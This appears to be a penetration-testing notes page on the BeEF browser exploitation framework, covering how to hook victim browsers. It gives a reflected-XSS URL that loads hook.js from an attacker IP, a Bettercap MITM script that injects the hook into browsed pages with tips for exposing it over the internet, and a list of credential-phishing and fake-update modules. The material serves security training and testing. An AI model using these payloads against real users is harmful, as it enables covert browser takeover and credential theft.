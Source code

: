 # BeEF (Browser Exploitation Framework)

* Overview
* Hook
  * XSS Reflective
  * MITM Bettercap injection example
* Exploiting
  * Social Engineering Attacks

## Overview

> https://beefproject.com, it comes installed with Kali Linux.

BeEF is a penetration testing tool that focuses on web browser by using client-side attacks vectors.

Targets need to be hooked (once they load a hook url) by:

* XSS exploit.
* DNS spoof requests to a page containing the hook.
* Inject hook in browsed pages (MITM).
* Social engineering the target to open a hook page (i.e, host website with Apache).
* Etc...

## Hook

### XSS Reflective

If you do find a valid XSS on a site, you will need to craft your XSS findings to utilize the BeEF Framework.

```
cd /usr/share/beef-xss
./beef
```

You can log into the console UI at `http://127.0.0.1:3000/ui/authentication`, with credentials `beef:beef`.

`htttp://127.0.0.1:3000/hook.js` is the payload that will control the victim user and will be injected into the victim browser's page. Once injected, their browser will connect back into your central server and the victim will be unaware.

Suppose we find the vulnerable URL of: `http://securepla.net/xss_example/example.php?alert=test;<script>[iframe]</script>`.

We are going to craft a URL that uses JavaScript to include the `hook.js` file. it will look something like: `http://securepla.net/xss_example/example.php?alert=asda<script src="http://192.168.10.91:3000/hook.js></script>">.` Once you trick a victim to go that URL using *Social Engineering Tactics*, they will be part of your XSS zombie network.

### MITM Bettercap injection example

We will use `hstshijack.cap` with a custom payload. Let's name our payload `inject_beef.js`:

```
const imported = document.createElement('script');
imported.src = 'http://<IP>:3000/hook.js`; // replace with your BeEF hook url
document.head.appendChild(imported);
```

> If you want to use this outside your network, you should replace IP with your REAL IP, not LAN IP, and configure IP forwarding so that your router forwards requests coming through your set up port to your machine.

And add to the caplet in `set hstshijack.payloads` value.

Then start bettercap...

```
bettercap -iface <CONNECTED_INTERFACE> -caplet /root/spoof.cap
```

## Exploiting

### Social Engineering Attacks

There's a whole section for _Social Engineering_ with interesting tools such as:

* Extensions for dropping HTTPS
* Pretty Theft (authentication dialogs for requesting passwords)
* Fake Update Notification Bar (send hosted malicious file)
